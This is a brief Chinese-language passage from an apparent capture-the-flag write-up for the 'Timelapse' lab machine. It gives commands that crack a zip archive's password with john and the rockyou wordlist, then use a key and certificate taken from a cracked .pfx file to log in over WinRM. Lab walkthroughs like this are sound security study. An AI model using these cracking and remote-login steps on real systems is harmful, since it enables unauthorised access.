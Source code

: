 


- 解压 zip

  ```bash
  └─# zip2john winrm_backup.zip > winrm_backup.zip.hash
  └─# john  --wordlist=/usr/share/wordlists/rockyou.txt winrm_backup.zip.hash 
  ```



- 关于 legacyy_dev_auth.pfx 、*.pfx 文件，是可以破解的，大约是解密后可以得到，什么 公钥证书 的，详情见  `Timelapse` 

  ```bash
  # 破解后可以 winrm 密匙 证书登录
  └─# evil-winrm -i timelapse.htb -S -k legacyy_dev_auth.key -c legacyy_dev_auth.crt
  ```






